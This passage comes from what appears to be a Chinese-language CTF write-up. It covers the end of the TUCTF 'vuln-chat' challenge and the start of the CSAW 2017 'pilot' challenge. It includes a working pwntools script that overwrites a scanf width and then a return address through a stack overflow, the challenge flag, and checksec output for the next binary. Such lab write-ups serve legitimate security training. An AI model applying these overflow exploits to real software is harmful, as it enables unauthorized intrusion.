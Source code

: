 ```
0xffffd5d3: "%100s"
```

有了更大的输入空间后就可以利用第二个 `scanf` 来覆盖返回地址了。

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='amd64', log_level='debug', terminal='kitty')

target = process('./vuln-chat')

recvuntil   = lambda str : print(target.recvuntil(str))
sendline    = lambda str : target.sendline(str)
interactive = lambda : target.interactive()

recvuntil(b': ')
sendline(b'A' * 0x14 + b'%100s')
recvuntil(b': ')
payload = b'A' * 0x31 + p32(0x804856b)
sendline(payload)
interactive()
```

## Flag

flag: `TUCTF{574ck_5m45h1n6_l1k3_4_pr0}`

# CSAW 2017 pilot

## Information

- Category: Pwn
- Points: 100

## Description

> Can I take your order?

## Write-up

```plaintext
λ ~/ file pilot
pilot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ed26a43b94fd3ff1dd15964e4106df72c01dc6c, stripped
λ ~/ pwn checksec pilot
[*] '/home/cub3y0nd/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

